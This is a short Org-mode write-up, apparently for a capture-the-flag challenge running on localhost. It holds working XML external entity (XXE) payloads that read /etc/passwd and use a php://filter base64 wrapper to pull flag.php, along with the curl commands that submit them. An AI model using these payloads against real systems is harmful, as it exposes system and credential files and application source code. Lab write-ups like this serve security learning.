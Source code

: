 #+TITLE: Writeup

* PoC

#+BEGIN_SRC shell
curl -X POST -d "<xml></xml>" http://localhost:10013
#+END_SRC

* XXE - Attempt 1

#+BEGIN_SRC xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM '/etc/passwd'>]>
<root>
&test;
</root>
#+END_SRC

#+BEGIN_SRC shell
curl -X POST --data-binary "@payload.xml" http://localhost:10013
#+END_SRC

* Final XXE

#+BEGIN_SRC xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=flag.php'>
]>
<root>
&test;
</root>
#+END_SRC
